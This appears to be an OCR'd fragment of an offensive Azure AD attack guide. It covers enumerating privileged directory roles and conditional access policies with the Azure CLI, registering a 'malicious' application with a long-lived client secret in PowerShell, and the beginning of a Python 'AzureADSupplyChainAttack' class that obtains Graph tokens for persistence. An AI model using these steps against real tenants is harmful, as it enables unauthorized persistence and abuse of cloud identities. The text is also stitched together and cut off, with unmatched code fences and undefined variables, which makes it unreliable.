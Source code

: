### Role and Permission Analysis

```bash
# List directory roles
az ad directory-role list --output table

# Get members of privileged roles
az ad directory-role member list --role "Global Administrator" --output table
az ad directory-role member list --role "Application Administrator" --output table
az ad directory-role member list --role "Cloud Application Administrator" --output table

# Check user's role assignments
USER_ID=$(az ad signed-in-user show --query id -o tsv)
az rest --method GET --url "https://graph.microsoft.com/v1.0/users/$USER_ID/appRoleAssignments" --output table

# List custom directory roles
az ad directory-role list --query "[?roleTemplateId==null]" --output table

# Check conditional access policies
az rest --method GET --url "https://graph.microsoft.com/v1.0/identity/conditionalAccess/policies" --output json
```

# Create service principal
$ServicePrincipal = New-AzureADServicePrincipal `
    -AppId $AppRegistration.AppId

# Generate client secret
$ClientSecret = New-AzureADApplicationPasswordCredential `
    -ObjectId $AppRegistration.ObjectId `
    -CustomKeyIdentifier "ProductionKey" `
    -EndDate (Get-Date).AddYears(2)

Write-Output "Malicious app registered: $($AppRegistration.AppId)"
Write-Output "Client Secret: $($ClientSecret.Value)"
```

#### Supply Chain Persistence via App Permissions

```python
import requests
import json
from datetime import datetime, timedelta

class AzureADSupplyChainAttack:
    def __init__(self, tenant_id, client_id, client_secret):
        self.tenant_id = tenant_id
        self.client_id = client_id
        self.client_secret = client_secret
        self.access_token = self.get_access_token()

    def get_access_token(self):
        """Obtain access token using client credentials"""
        token_url = f"https://login.microsoftonline.com/{self.tenant_id}/oauth2/v2.0/token"

        payload = {
            'grant_type': 'client_credentials',
            'client_id': self.client_id,
            'client_secret': self.client_secret,
            'scope': 'https://graph.microsoft.com/.default'
        }
```